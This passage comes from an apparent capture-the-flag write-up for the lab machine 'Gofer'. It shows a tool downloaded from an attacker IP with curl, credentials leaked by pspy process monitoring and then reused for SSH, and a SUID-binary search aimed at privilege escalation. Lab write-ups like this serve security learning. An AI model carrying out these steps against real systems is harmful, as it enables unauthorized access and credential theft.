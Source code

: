 ## Lateral movement

Doing linux privesc searching and looking for credentials was all fruitless. Then i decided to try to see what is going on on the machine by launching pspy. This tool can be used to get information on all processes running on the machine. First we needed to download it.

```
curl http://10.10.14.54/pspy64 -o pspy 
```
Next make it executable
```
chmod +x pspy
```
And then we could run it.
```
./pspy
```

Then after looking at the processes for a while a command using credentials in the command
```
2023/08/01 23:24:01 CMD: UID=0     PID=211791 | /usr/bin/curl http://proxy.gofer.htb/?url=http://gofer.htb --user tbuckley:ooP4dietie3o_hquaeti
```

Using these credentials we could log in.

```
ssh tbuckley@gofer.htb
ooP4dietie3o_hquaeti
```

## Privilege escalation
### Discovery
Looking around the machine i found a binary which with the SUID bin set. This means that this binary can execute as root even when the user doesn't have root privileges. 
```
find / -perm -u=s -type f 2>/dev/null
```
![suspicious SUID binary](/assets/img/Gofer/Gofer_10.png)
